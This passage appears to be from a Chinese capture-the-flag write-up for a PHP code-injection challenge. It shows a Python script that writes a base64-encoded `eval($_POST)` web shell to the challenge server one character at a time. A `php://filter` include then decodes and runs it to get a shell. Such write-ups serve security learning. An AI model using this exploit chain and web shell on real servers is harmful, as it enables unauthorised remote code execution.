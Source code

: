 最后请求如下：
```php
# 每次写入一个字符：PD9waHAgZXZhbCgkX1BPU1RbOV0pOw
# 最后包含
?code=include$_GET[0];&0=php://filter/read=convert.base64-decode/resource=B
```
写一个脚本跑数据:
```python
import requests
dic='PD9waHAgZXZhbCgkX1BPU1RbOV0pOw'
for i in dic:
    b="$_GET[a](B,"+i+",8);&a=file_put_contents"
    url='http://803cb7e2-feab-4043-b79d-cf724022a37a.node1.hackingfor.fun/1nD3x.php?code='+str(b)
    print(url)
    res = requests.get(url=url)
```
最后包含即可获取shell
![](/bmth_blog/images/pasted-184.png)
